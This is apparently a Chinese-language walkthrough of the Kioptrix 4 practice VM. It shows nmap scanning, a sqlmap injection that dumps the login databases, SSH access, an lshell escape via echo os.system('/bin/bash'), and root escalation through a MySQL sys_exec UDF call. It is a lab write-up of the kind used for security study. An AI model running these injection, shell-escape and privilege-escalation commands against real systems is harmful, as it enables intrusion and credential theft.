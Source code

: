 # NMAP扫描平台IP
## 确保虚拟机在所知网段下
## 这玩意儿是DHCP自动获取IP的，所以我们可以控制它所在的网段。
## 使用 nmap -sP `192.168.75.*`扫描这个网段的所有IP
![image](\Kioptrix4-image\NMAP扫描.png)
## ifconfig 查看自身IP
![image](\Kioptrix4-image\ifconfig.png)
## 推断对方IP为192.168.75.128
## NMAP扫描端口
- nmap -T5 -O -A -sV -p 1-60000 192.168.75.128
![image](\Kioptrix4-image\NMAP端口扫描.png)
- 开启端口为22:SSH,80:HTTP,139,445
## 推测该服务器有网页存在，也可以SSH连接
## 测试使用浏览器直接访问IP
![image](\Kioptrix4-image\IP猜对.png)
## 访问成功

# BURP测试漏洞
## 抓包分析
![image](\Kioptrix4-image\BURP抓包1.png)
## 在`&submit`前加上`'`测试回包
![image](\Kioptrix4-image\回包出错.png)
## 报错，推测此处存在SQL注入

# SQLmap注入
## sqlmap -u "http://192.168.44.164/checklogin.php" --data "myusername=admin&mypassword=asdfa&Submit=Login" --level=5 
>- -u URL, --url=URL   目标 URL
>- --data=DATA         通过 POST 发送的数据字符串
>- --level=LEVEL       执行测试的级别(1-5, 默认 1)
>- --risk=RISK         执行测试的风险(1-3, 默认 1) 
## 注入点发现
![image](\Kioptrix4-image\SQL注入点.png)
## 爆数据库
### 正在使用的数据库
![image](\Kioptrix4-image\数据库1.png)
### 全部数据库
![image](\Kioptrix4-image\数据库2.png)
### 正常SQLMAP注入步骤操作ING
- member数据库
![image](\Kioptrix4-image\menmber数据库dump.png)
- mysql数据库
![image](\Kioptrix4-image\sql数据库dump.png)
### 使用member数据库登入尝试
- 成功
![image](\Kioptrix4-image\member数据库登入.png)

# SSH连接
## 连接成功
![image](\Kioptrix4-image\SSH登入.png)
## 命令缺失
### lshell是一个用Python编码的shell，它允许您将用户的环境限制为有限的命令集，选择通过SSH启用/禁用任何命令（例如SCP，SFTP，rsync等），记录用户命令，实现时序限制和更多。
![image](\Kioptrix4-image\命令缺失.png)
## 命令缺失解决
### 通过利用echo命令调用os.system以生成shell，可以逃离此shell：
### echo os.system(‘/bin/bash’)
![image](\Kioptrix4-image\命里缺失解决.png)

## 提权
### - 由于目标没有安装gcc编译器，且SSH文件传输限制。暂时不考虑编写脚本提权。
### - mysql具有root权限
>- 可以使用用户定义函数（UDF）从MySQL服务器根级别升级到系统根目录
>- 需要lib_mysqludf_sys.so库，其中包含一些可以与OS交互的有用函数。最重要的是sys_exec（执行命令并返回退出状态）和sys_eval（执行命令并返回标准输出）

    在Ubuntu 11.10之前，通过sudo具有root权限的管理员的Unix组是管理员。从Ubuntu 12.04 LTS开始，它现在是sudo，因为它与Debian和sudo本身兼容。但是，为了向后兼容，管理员组成员仍被识别为管理员
>因此，可以使john帐户成为admin组的一部分，这相当于sudo组

### mysql执行
    mysql
    select sys_exec('usermod -a -G admin john');
    john@Kioptrix4:~$ sudo su
    [sudo] password for john: 
    root@Kioptrix4:/home/john# whoami
    root
![image](\Kioptrix4-image\sql提权.png)

# 完成
## 在root目录下有个congrats.txt。
